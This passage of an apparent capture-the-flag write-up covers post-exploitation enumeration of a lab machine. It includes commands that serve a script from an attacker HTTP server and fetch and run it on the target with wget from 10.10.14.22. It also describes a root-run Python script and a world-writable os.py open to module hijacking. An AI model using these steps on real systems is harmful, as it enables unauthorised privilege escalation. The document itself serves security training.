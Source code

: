 I did some additional enumeration with a utility called LinEnum.

> [LinEnum](https://github.com/rebootuser/LinEnum) automates linux enumeration by checking system information, processes, suid/guid binaries, folder/file permissions, and many other things.

I copied LinEnum to my working directory and started a python http server

```
cp ~/tools/LinEnum/LinEnum.sh le.sh
python3 -m http.server 80
```

On the target I switched to /dev/shm and used wget to copy le.sh to the local file system. I then made it executable and started a scan with the -t parameter (for thorough).

```
cd /dev/shm
wget http://10.10.14.22/le.sh
chmod +x
./le.sh -t
```

I came across a couple interesting things. The first was a python script that was being run by root

![image](assets/81485198-45bbe180-9219-11ea-8bea-5a108c5ddd43.png)

And the second was a world-writable file in the /usr/lib/python2.7 directory called os.py.

![image](assets/81485214-6d12ae80-9219-11ea-9459-97539fa51f14.png)

Being familiar with python I recognized this as a [module](https://docs.python.org/3/library/os.html) which allows interaction with the operating system. Taking a look at /opt/server_admin/reporter.py shows that it imports os.py.

```
#!/usr/bin/python

import os

to_address = "admin1@friendzone.com"
from_address = "admin2@friendzone.com"

print "[+] Trying to send email to %s"%to_address

#command = ''' mailsend -to admin2@friendzone.com -from admin1@friendzone.com -ssl -port 465 -auth -smtp smtp.gmail.co-sub scheduled results email +cc +bc -v -user you -pass "PAPAP"'''

#os.system(command)

# I need to edit the script later
# Sam ~ python developer
```
